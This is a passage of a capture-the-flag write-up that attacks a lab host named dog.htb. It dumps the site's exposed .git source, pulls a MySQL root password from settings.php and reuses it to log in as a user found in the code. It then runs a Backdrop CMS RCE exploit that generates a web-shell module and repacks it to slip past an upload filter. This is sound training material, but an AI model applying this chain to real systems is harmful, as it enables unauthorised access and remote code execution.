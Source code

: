 ```shell
git-dumper http://dog.htb/.git/ ./results
```

So now I've got the full code of the website:

![](Pasted%20image%2020250310102225.png)

Now I checked the `settings.php` in spite of credentials:

![](Pasted%20image%2020250310102401.png)

> Got some credentials for the mysql database: `root:BackDropJ2024DS2024`

I'll now try to find some users around the code:

```shell
find * | grep -iR @dog.htb 

[redacted]
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
```

So I'll try the combination of `tiffany@dog.htb:BackDropJ2024DS2024` in the `/login` endpoint:

![](Pasted%20image%2020250310103135.png)

> *I'm in*

## Weaponization

I searched for "Backdrop CMS exploits" and got this [RCE](https://www.exploit-db.com/exploits/52021)

## Exploitation

There is one problem related to the permitted upload files, so I just can't upload `.zip`:

![](Pasted%20image%2020250310105344.png)

So I'll upload a `.tar` instead:

```shell
python3 rce.py http://dog.htb
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://dog.htb/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://dog.htb/modules/shell/shell.php
```

Now I create a `.tar` instead of the `.zip`:

```shell
tar czf shell.tar shell
```
